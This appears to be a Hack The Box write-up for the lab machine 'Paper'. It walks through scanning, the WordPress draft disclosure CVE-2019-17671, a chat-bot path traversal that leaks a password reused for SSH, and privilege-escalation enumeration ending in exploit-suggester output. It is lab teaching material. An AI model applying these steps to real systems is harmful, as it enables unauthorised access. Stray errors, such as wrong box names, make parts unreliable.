+++
title = "Paper"
date = "2023-12-16"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2022-02-05

**Created by**: [secnigma](https://app.hackthebox.com/users/92926)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.9`, while the target machine's IP address will be `10.10.11.143`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp/` or `C:\tmp\` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Antique using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.11.143 -p-
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.11.143 -p 22,80,443 -sV
```

```
<SNIP>
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
<SNIP>
```

Alright, so `nmap` found that Paper is accepting connections over SSH on the standard port `22/tcp`. This is seldom a good entry point, but it may come in handy later on to get a stable shell when we get credentials.

It also found two other open ports related to Web services. The first one is `80/tcp`, used by the `http` service, and the second one is `443/tcp`, used this time by the `ssl/http` service.

Interestingly, these two services are using `Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)`, so we can assucme that these are indeed web servers.

## Scripts

Let's run `nmap`'s default scripts on this service to see if they can find additional information.

```sh
❯ nmap -sS 10.10.11.143 -p 22,80,443 -sC
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  https
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
<SNIP>
```

Okay, so `nmap`'s scans found that the HTTP title was the same on the two web servers. It indicates that these are 'HTTP Server Test Page powered by CentOS'...?

Let's explore them.

## Apache (port `80/tcp`)

If we browse to `http://10.10.11.143`, we see this web page:



As we discovered in the last section, this website is the default installation page. There's not much to see here.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.11.143 -I
```

```
HTTP/1.1 403 Forbidden
Date: Fri, 15 Dec 2023 07:51:53 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
```

The `Server` header confirms what we discovered thanks to our previous scans. But the `X-Backend-Server` is really interesting though... Why is it set to `office.paper`?

If we search online for this HTTP header, we find:

> The target website returns the `X-Backend-Server` header which includes potentially internal/hidden IP addresses or hostnames.
>
> — [GitLab](https://docs.gitlab.com/ee/user/application_security/dast/checks/16.4.html)

Apparently, some proxy/load balancer providers reveal the `X-Backend-Server` header value by default, which discloses the IP or the hostname of the target website.

### `office.paper` domain

Let's add this hostname at the end of our `/etc/hosts`:

```sh
❯ echo "10.10.11.143 office.paper" | tee -a /etc/hosts
```

Now, let's browse to `http://office.paper`:



This time this is a real website!

### HTTP headers

Once again, let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://office.paper -I
```

```
HTTP/1.1 200 OK
Date: Fri, 15 Dec 2023 08:17:28 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Powered-By: PHP/7.2.24
Link: <http://office.paper/index.php/wp-json/>; rel="https://api.w.org/"
X-Backend-Server: office.paper
Content-Type: text/html; charset=UTF-8
```

The `Server` header is still the same. But this time there's also a `X-Powered-By` header indicating that PHP version `7.2.24` is in use, and also a `Link` header mentioning `wp-json`...? That's probably WordPress, we'll see.

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



It finds a lot of technologies, including Bootstrap which doesn't appear in this screenshot. It confirms what we already knew, and what we suspected: this website is indeed using Wordpress.

### Exploration

It looks like it's a blog for the Blunder Tiffinc Inc., 'The best paper company in the eletric-city Scranton!'. There's a few blog posts written by `Prisonmike`: in the first one he declares that he added all of his friends on this blog, and in the last one he says that `Jan` forced him to remove all of them.


There's also the possiblity of leaving comments on blog posts once logged in. Let's check the comments on the latest blog post.



That's interesting! According to `nick`'s comment, there's some secret content in Michael's drafts.

### WordPress

If we look at the footer of this website, we see that it links to [WordPress](https://wordpress.com/), and that it's 'Proudly Powered By WordPress'. This corroborates what we discovered in the [HTTP headers](#http-headers-1) and [Technology lookup](#technology-lookup) sections.

That's a great news for us, since WordPress has a wealth of plugins vulnerable to various exploits. So if one of these plugins is used by this website, we should be able to exploit it to gain additional knowledge.

Let's run `wpscan` to check for WordPress issues.

```sh
❯ wpscan --url http://office.paper --api-token $TOKEN
```

```
<SNIP>
[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-04).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |
 | [!] 57 vulnerabilities identified:
 |
 | <SNIP>
 |
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
 | <SNIP>

[+] WordPress theme in use: construction-techup
 | Location: http://office.paper/wp-content/themes/construction-techup/
 | Last Updated: 2022-09-22T00:00:00.000Z
 | Readme: http://office.paper/wp-content/themes/construction-techup/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | Style URL: http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1
 | Style Name: Construction Techup
 | Description: Construction Techup is child theme of Techup a Free WordPress Theme useful for Business, corporate a...
 | Author: wptexture
 | Author URI: https://testerwp.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'
<SNIP>
```

It found 57 vulnerabilities, but `Unauthenticated View Private/Draft Posts` ([CVE-2019-17671](https://nvd.nist.gov/vuln/detail/CVE-2019-17671)) caught my attention, since we know that Michael has some secrets in his drafts.

# Foothold ([CVE-2019-17671](https://nvd.nist.gov/vuln/detail/CVE-2019-17671))

[CVE-2019-17671](https://nvd.nist.gov/vuln/detail/CVE-2019-17671) is a vulnerability affecting WordPress verions prior to 5.2.4 that allows unauthenticated users to view certain protected content. The vulnerability is caused by a mishandling of the static query property in the WordPress core. This allows attackers to bypass authentication and view protected content such as drafts, private posts, or even deleted content.

## Retrieving the WordPress drafts

[This blog](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/) explains why this issue arises, and how to exploit it. In fact, it's extremely easy: we simply have to browse to `http://office.paper/?static=1`.



Apparently, the users were removed from this website for security reasons. It was a public blog, so the higher officials preferred migrating to a private chat system.

There's also a 'Secret Registration URL of new Employee chat system': `http://chat.office.paper/register/8qozr226AhkCHZdyY`. That's interesting! The `chat.office.paper` subdomain is new.

We can also see that Nick is one again blaming Michael for saving secrets in drafts files, but Michael thinks that 'unpublished drafts cannot be accessed by outsiders'.

## `chat.office.paper` subdomain

We discovered a new subdomain, so let's add it to our `/etc/hosts` file.

```sh
❯ echo "10.10.11.143 chat.office.paper" | tee -a /etc/hosts
```

Now let's see what this subdomain holds by browsing to `http://chat.office.paper`.



This is likely the private chat system mentioned by the company earlier! The logo indicates that it's probably using [Rocket.Chat](https://www.rocket.chat/). This website also states that the 'Registration can only be done using the secret registration URL!', luckily we got that URL from the WordPress draft.



Now we can create an account. I'll create a fake one as `foo`, and I'll press 'Register a new account'.



We successfully created an account! We only have access to a single channel, `#general`. Let's see what it contains.



From what we can see, there's not much.

## `recyclops`

But if we scroll up the history of messages, we see the mention of a `recyclops` bot that we can use to retrieve the content of files in the `Sales` folder.

The problem is that this channel is read-only. But if we read carefully the messages, `kellylikescupcakes` mentions that we can interact with it through direct messages!

Let's try to send `recyclops help` and see what happens.



That's the same message we saw on the `#general` channel.

If we enter `recyclops list`, we get the directory listing of the `sales` folder.



Let's try to enter a random folder and see what happens:



We get an error, which discloses that this bot reads the content of `/home/dwight/sales/`. That's good to know.

## Path traversal

Let's check if this bot is vulnerable to a path traversal vulnererability by entering `recyclops list ../`



It works! We now have access to `dwight`'s home folder.

We can see that it contains the `user.txt` file, but I'm not interested in that at the moment.

I also looked into the `.ssh` folder, but it's empty.

## LFI

Since this bot is vulnerable to path traversal, and since it can read files, we should be able to weaponize it to obtain a local file inclusion vulnerability.

Let's retrieve the content of `bot_restart.sh` using `recyclops file ../bot_restart.sh`:

```sh
#!/bin/bash

# Cleaning hubot's log so that it won't grow too large.
echo "" > /home/dwight/hubot/.hubot.log


# For starting the bot 20-ish (10+20) seconds late, when the server is restarted.
# This is because MongoDB and Rocket-Chat server needs some time to startup properly
sleep 10s

# Checks if Hubot is running every 10s
while [ 1 ]; 
do
sleep 20s
alive=$(/usr/sbin/ss -tulnp|grep 8000);
if  [[ -n $alive ]]; then
        err=$(grep -i 'unhandled-rejections=strict' /home/dwight/hubot/.hubot.log)
        if [[ -n $err ]]; then
                # Restarts bot
                echo "[-] Bot not running! `date`";
                #Killing the old process
                pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6); 
                kill -9 $pid;
                cd /home/dwight/hubot;
                # Cleaning hubot's log so that it won't grow too large.
                echo "" > /home/dwight/hubot/.hubot.log
                bash /home/dwight/hubot/start_bot.sh&
        else


                echo "[+] Bot running succesfully! `date`";
        fi

        else
                # Restarts bot
                echo "[-] Bot not running! `date`";
                #Killing the old process
                pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6); 
                kill -9 $pid;
                cd /home/dwight/hubot;
                bash /home/dwight/hubot/start_bot.sh&
        fi

done
```

So this script basically kills the bot process, cleans up the log file, and launches the `/home/dwight/hubot/start_bot.sh` file, probably to start the bot.

What's really interesting to us is that it mentions a MongoDB database and a Rocket-Chat server, so we can assume that Rocket.Chat stores its credentials in MongoDB.

But we also notice that the launch script and log file are stored in the `hubot` folder in `/home/dwight`. That's really intriguing, I've never seen a folder with that name before. Let's search on Internet for this name:

> Hubot is your friendly robot sidekick. Install him in your company to dramatically improve employee efficiency.
>
> — [Hubot](https://hubot.github.com/)

So this is the technology used to develop this bot! It must contain interesting information, let's explore it.

## Exploring `hubot`

Let's use the path traversal vulnerability to explore the content of this folder.



It contains a few files, including `.env`. This type of file is usually used to store secrets, so let's retrieve its content.



Bingo! It contains a few secrets variables, and one is named `ROCKETCHAT_PASSWORD`! Its value is `Queenofblad3s!23`.

It might be worth checking for credentials reuse, maybe `dwight` uses the same password to connect to his account.

## SSH (port `22/tcp`)

During the [TCP port scanning](#tcp-port-scanning) phase, we discovered that Paper was accepting connections over SSH. Let's try to connect as `dwight` using the password we just discovered.

```sh
❯ ssh dwight@10.10.11.143
```

```
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ED25519) to the list of known hosts.
dwight@10.10.11.143's password: 
<SNIP>

[dwight@paper ~]$
```

It worked! Now we have a foothold into Paper.

# Local enumeration

If we run `whoami`, we see that we got a foothold as `dwight`.

## Distribution

Let's see which distribution Traceback is using.

```sh
[dwight@paper ~]$ cat /etc/os-release
```

```
NAME="CentOS Linux"
VERSION="8"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="8"
PLATFORM_ID="platform:el8"
PRETTY_NAME="CentOS Linux 8"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:8"
HOME_URL="https://centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-8"
CENTOS_MANTISBT_PROJECT_VERSION="8"
```

As was indicated by the default Apache installation page, Paper is using CentOS.

## Architecture

What is Paper's architecture?

```sh
[dwight@paper ~]$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Paper is vulnerable to a kernel exploit?

```sh
[dwight@paper ~]$ uname -r
```

```
4.18.0-348.7.1.el8_5.x86_64
```

Unfortunately, the kernel version is recent too.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
[dwight@paper ~]$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
ls: cannot access '/etc/apparmor.d/': No such file or directory
```

Okay, so there's probably none!

## NICs

Let's gather the list of connected NICs.

```sh
[dwight@paper ~]$ ifconfig -a
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.143  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:4338  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:4338  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:43:38  txqueuelen 1000  (Ethernet)
        RX packets 2464  bytes 279316 (272.7 KiB)
        RX errors 0  dropped 1  overruns 0  frame 0
        TX packets 1257  bytes 3105495 (2.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24096  bytes 10496156 (10.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24096  bytes 10496156 (10.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

virbr0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 192.168.122.1  netmask 255.255.255.0  broadcast 192.168.122.255
        ether 52:54:00:9b:e7:f7  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

virbr0-nic: flags=4098<BROADCAST,MULTICAST>  mtu 1500
        ether 52:54:00:9b:e7:f7  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Looks like there's multiple networks, but they're not interesting at the moment.

## Local users

Let's enumerate all the local users that have a console.

```sh
[dwight@paper ~]$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
rocketchat
dwight
```

Interesting! So apart from us and `root`, there's also a `rocketchat` user.

## Local groups

Let's retrieve the list of all local groups.

```sh
[dwight@paper ~]$ getent group | cut -d: -f1 | sort
```

```
adm
apache
audio
avahi
bin
brlapi
cdrom
chrony
clevis
cockpit-ws
colord
daemon
dbus
dialout
disk
dnsmasq
dwight
floppy
ftp
games
gdm
geoclue
gluster
gnome-initial-setup
input
insights
kmem
kvm
libstoragemgmt
libvirt
lock
lp
mail
man
mem
mongod
mysql
nginx
nobody
pegasus
pipewire
polkitd
printadmin
pulse
pulse-access
pulse-rt
qemu
radvd
render
rocketchat
root
rpc
rpcuser
rtkit
saslauth
setroubleshoot
slocate
ssh_keys
sshd
sssd
sys
systemd-coredump
systemd-journal
systemd-resolve
tape
tcpdump
tss
tty
unbound
usbmuxd
users
utempter
utmp
video
wheel
```

That's pretty classic.

## User account information

Let's see to which groups we currently belong

```sh
[dwight@paper ~]$ groups
```

```
dwight
```

We only belong to the default group for our user.

## Home folder

We aleady began the exploration of our home folder earlier, and we noticed the user flag file. Let's retrieve its content.

```sh
[dwight@paper ~]$ cat ~/user.txt
```

```
59f70e475e39973568acabb293df37c9
```

## Command history

We can try to check the history of the commands our user ran, but it's discarded into `/dev/null`.

## Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
[dwight@paper ~]$ sudo -l
```

```
<SNIP>
Sorry, user dwight may not run sudo on paper.
```

Well, no luck here.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```sh
[dwight@paper ~]$ env
```

```
LS_COLORS=rs=0:di=38;5;33:ln=38;5;51:mh=00:pi=40;38;5;11:so=38;5;13:do=38;5;5:bd=48;5;232;38;5;11:cd=48;5;232;38;5;3:or=48;5;232;38;5;9:mi=01;05;37;41:su=48;5;196;38;5;15:sg=48;5;11;38;5;16:ca=48;5;196;38;5;226:tw=48;5;10;38;5;16:ow=48;5;10;38;5;21:st=48;5;21;38;5;15:ex=38;5;40:*.tar=38;5;9:*.tgz=38;5;9:*.arc=38;5;9:*.arj=38;5;9:*.taz=38;5;9:*.lha=38;5;9:*.lz4=38;5;9:*.lzh=38;5;9:*.lzma=38;5;9:*.tlz=38;5;9:*.txz=38;5;9:*.tzo=38;5;9:*.t7z=38;5;9:*.zip=38;5;9:*.z=38;5;9:*.dz=38;5;9:*.gz=38;5;9:*.lrz=38;5;9:*.lz=38;5;9:*.lzo=38;5;9:*.xz=38;5;9:*.zst=38;5;9:*.tzst=38;5;9:*.bz2=38;5;9:*.bz=38;5;9:*.tbz=38;5;9:*.tbz2=38;5;9:*.tz=38;5;9:*.deb=38;5;9:*.rpm=38;5;9:*.jar=38;5;9:*.war=38;5;9:*.ear=38;5;9:*.sar=38;5;9:*.rar=38;5;9:*.alz=38;5;9:*.ace=38;5;9:*.zoo=38;5;9:*.cpio=38;5;9:*.7z=38;5;9:*.rz=38;5;9:*.cab=38;5;9:*.wim=38;5;9:*.swm=38;5;9:*.dwm=38;5;9:*.esd=38;5;9:*.jpg=38;5;13:*.jpeg=38;5;13:*.mjpg=38;5;13:*.mjpeg=38;5;13:*.gif=38;5;13:*.bmp=38;5;13:*.pbm=38;5;13:*.pgm=38;5;13:*.ppm=38;5;13:*.tga=38;5;13:*.xbm=38;5;13:*.xpm=38;5;13:*.tif=38;5;13:*.tiff=38;5;13:*.png=38;5;13:*.svg=38;5;13:*.svgz=38;5;13:*.mng=38;5;13:*.pcx=38;5;13:*.mov=38;5;13:*.mpg=38;5;13:*.mpeg=38;5;13:*.m2v=38;5;13:*.mkv=38;5;13:*.webm=38;5;13:*.ogm=38;5;13:*.mp4=38;5;13:*.m4v=38;5;13:*.mp4v=38;5;13:*.vob=38;5;13:*.qt=38;5;13:*.nuv=38;5;13:*.wmv=38;5;13:*.asf=38;5;13:*.rm=38;5;13:*.rmvb=38;5;13:*.flc=38;5;13:*.avi=38;5;13:*.fli=38;5;13:*.flv=38;5;13:*.gl=38;5;13:*.dl=38;5;13:*.xcf=38;5;13:*.xwd=38;5;13:*.yuv=38;5;13:*.cgm=38;5;13:*.emf=38;5;13:*.ogv=38;5;13:*.ogx=38;5;13:*.aac=38;5;45:*.au=38;5;45:*.flac=38;5;45:*.m4a=38;5;45:*.mid=38;5;45:*.midi=38;5;45:*.mka=38;5;45:*.mp3=38;5;45:*.mpc=38;5;45:*.ogg=38;5;45:*.ra=38;5;45:*.wav=38;5;45:*.oga=38;5;45:*.opus=38;5;45:*.spx=38;5;45:*.xspf=38;5;45:
SSH_CONNECTION=10.10.14.9 42630 10.10.11.143 22
LANG=C.UTF-8
HISTCONTROL=ignoredups
HOSTNAME=paper
which_declare=declare -f
XDG_SESSION_ID=3
USER=dwight
PWD=/home/dwight
HOME=/home/dwight
SSH_CLIENT=10.10.14.9 42630 22
XDG_DATA_DIRS=/home/dwight/.local/share/flatpak/exports/share:/var/lib/flatpak/exports/share:/usr/local/share:/usr/share
SSH_TTY=/dev/pts/0
MAIL=/var/spool/mail/dwight
TERM=xterm-256color
SHELL=/bin/bash
TC_LIB_DIR=/usr/lib64/tc
SHLVL=1
LOGNAME=dwight
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1004/bus
XDG_RUNTIME_DIR=/run/user/1004
PATH=/home/dwight/.local/bin:/home/dwight/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin
HISTSIZE=1000
LESSOPEN=||/usr/bin/lesspipe.sh %s
BASH_FUNC_which%%=() {  ( alias;
 eval ${which_declare} ) | /usr/bin/which --tty-only --read-alias --read-functions --show-tilde --show-dot "$@"
}
_=/usr/bin/env
```

The `LESSOPEN` and `BASH_FUNC_which%%` environment variables are unusual, but that's all. I'm not sure how they can be useful to reach `root`, so let's move on.

## Listening ports

Let's see if any TCP local ports are listening for connections.

```sh
[dwight@paper ~]$ ss -tln
```

```
State                       Recv-Q                      Send-Q                                           Local Address:Port                                             Peer Address:Port                      Process                      
LISTEN                      0                           128                                                  127.0.0.1:48320                                                 0.0.0.0:*                                                      
LISTEN                      0                           128                                                  127.0.0.1:8000                                                  0.0.0.0:*                                                      
LISTEN                      0                           70                                                   127.0.0.1:33060                                                 0.0.0.0:*                                                      
LISTEN                      0                           128                                                  127.0.0.1:27017                                                 0.0.0.0:*                                                      
LISTEN                      0                           128                                                  127.0.0.1:3306                                                  0.0.0.0:*                                                      
LISTEN                      0                           32                                               192.168.122.1:53                                                    0.0.0.0:*                                                      
LISTEN                      0                           128                                                    0.0.0.0:22                                                    0.0.0.0:*                                                      
LISTEN                      0                           128                                                          *:443                                                         *:*                                                      
LISTEN                      0                           128                                                          *:80                                                          *:*                                                      
LISTEN                      0                           128                                                       [::]:22                                                       [::]:*
```

There's a few ports listening locally, including `27017/tcp` corresponding to MongoDB and `3306/tcp` corresponding to MySQL.

MongoDB must be used by Rocket.Chat as we've seen earlier, but MySQL is definitely intriguing.

Let's check UDP open ports too.

```sh
[dwight@paper ~]$ ss -uln
```

```
State                       Recv-Q                      Send-Q                                            Local Address:Port                                            Peer Address:Port                      Process                      
UNCONN                      0                           0                                                0.0.0.0%virbr0:67                                                   0.0.0.0:*                                                      
UNCONN                      0                           0                                                       0.0.0.0:5353                                                 0.0.0.0:*                                                      
UNCONN                      0                           0                                                     127.0.0.1:323                                                  0.0.0.0:*                                                      
UNCONN                      0                           0                                                       0.0.0.0:42368                                                0.0.0.0:*                                                      
UNCONN                      0                           0                                                 192.168.122.1:53                                                   0.0.0.0:*                                                      
UNCONN                      0                           0                                                          [::]:5353                                                    [::]:*                                                      
UNCONN                      0                           0                                                         [::1]:323                                                     [::]:*                                                      
UNCONN                      0                           0                                                          [::]:36878                                                   [::]:*
```

The only locally open UDP port is `323/udp`. What could it be?

```sh
[dwight@paper ~]$ cat /etc/services | grep -E '\b323/udp\b'
```

There's no output, this port is unknown. Let's try to interact with it:

```sh
[dwight@paper ~]$ nc 127.0.0.1 323
```

```
Ncat: Connection refused.
```

We can't interact with it. Let's move on then!

## MongoDB (port `27017/tcp`)

Let's enumerate the MongoDB instance running on Paper.

```sh
[dwight@paper ~]$ mongo
```

```
MongoDB shell version v4.0.27
connecting to: mongodb://127.0.0.1:27017/test?gssapiServiceName=mongodb
<SNIP>
rs01:PRIMARY>
```

### Databases

Let's see which databases are stored in this MongoDB instance.

```sh
rs01:PRIMARY> show dbs;
```

No output... so this instance doesn't contain any database.

## MySQL (port `3306/tcp`)

We also noticed that the port `3306/tcp` was open, which probably means that a MySQL instance is running on Paper. Let's explore it!

```sh
[dwight@paper ~]$ mysql
```

```
ERROR 1045 (28000): Access denied for user 'dwight'@'localhost' (using password: NO)
```

We can't connect without using a password.

```sh
[dwight@paper ~]$ mysql -p
```

```
Enter password: 
ERROR 1045 (28000): Access denied for user 'dwight'@'localhost' (using password: YES)
```

Even if we enter the password we got earlier, we get a 'Access denied' message.

I also tried to connect using `root` as the username, but it still doesn't work.

## Processes

Let's use `pspy` to see which processes are running on Paper.

```sh
[dwight@paper ~]$ /tmp/pspy
```

```
<SNIP>
2023/12/16 03:17:08 CMD: UID=1004  PID=3208   | /bin/bash /home/dwight/bot_restart.sh
<SNIP>
2023/12/16 03:17:28 CMD: UID=1004  PID=3219   | /bin/bash /home/dwight/bot_restart.sh
<SNIP>
2023/12/16 03:17:48 CMD: UID=1004  PID=3243   | /bin/bash /home/dwight/bot_restart.sh
<SNIP>
```

It looks like there's a cronjob that executes `/bin/bash /home/dwight/bot_restart.sh` every 20 seconds. But we already explored this script earlier, it just restarts the `recyclops` bot and cleans the log files. We can't leverage that to get `root`, so there must be another way.

## SUID binaries

Let's look for SUID binaries.

```sh
[dwight@paper ~]$ find / -perm -4000 2>/dev/null
```

```
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/fusermount3
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/qemu-bridge-helper
/usr/libexec/cockpit-session
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/selinux_child
/usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
/usr/libexec/Xorg.wrap
```

Unfortunately, there's nothing that we can abuse to escalate our privileges.

## Capabilities

Let's see which files have special capabilities.

```sh
[dwight@paper ~]$ find / -type f -exec getcap {} \; 2>/dev/null
```

```
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/mtr-packet = cap_net_raw+ep
/usr/libexec/mysqld = cap_sys_nice+ep
```

Nothing that could be useful to get `root`.

## LES

Alright, I guess it's time to check for CVEs that might affect this box. Let's use [LES](https://github.com/The-Z-Labs/linux-exploit-suggester) for that!

```sh
[dwight@paper ~]$ /tmp/linux-exploit-suggester.sh
```

```
<SNIP>

Possible Exploits:

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
